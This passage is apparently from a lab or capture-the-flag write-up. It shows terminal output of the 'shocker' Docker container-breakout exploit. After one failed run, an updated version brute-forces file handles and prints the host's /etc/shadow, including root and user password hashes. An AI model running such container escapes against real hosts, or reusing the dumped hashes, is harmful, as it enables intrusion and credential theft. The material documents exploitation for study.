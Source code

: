     
    
    root@c150397ccd63:~# ./so
    [***] docker VMM-container breakout Po(C) 2014             [***]                  
    [***] The tea from the 90's kicks your sekurity again.     [***]                    
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]                      
    
    <enter>
                                                                                                             
    [-] open: No such file or directory 
    

But the updated version dumps `/etc/shadow` from the host:

    
    
    root@c150397ccd63:~# ./so
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]
    
    <enter>
    
    [*] Resolving 'etc/shadow'
    [*] Found lib32
    [*] Found ..
    [*] Found lost+found
    [*] Found sbin
    [*] Found bin
    [*] Found boot
    [*] Found dev
    [*] Found run
    [*] Found lib64
    [*] Found .
    [*] Found var
    [*] Found home
    [*] Found media
    [*] Found proc
    [*] Found etc
    [+] Match: etc ino=393217
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (etc) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x01, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [*] Resolving 'shadow'
    [*] Found modules-load.d
    [*] Found lsb-release
    [*] Found rsyslog.conf
    [*] Found rc6.d
    [*] Found calendar
    [*] Found fstab
    [*] Found shadow
    [+] Match: shadow ino=393228
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (shadow) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Got a final handle!
    [*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Win! /etc/shadow output follows:
    root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
    daemon:*:18659:0:99999:7:::
    ...[snip]...
    saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
    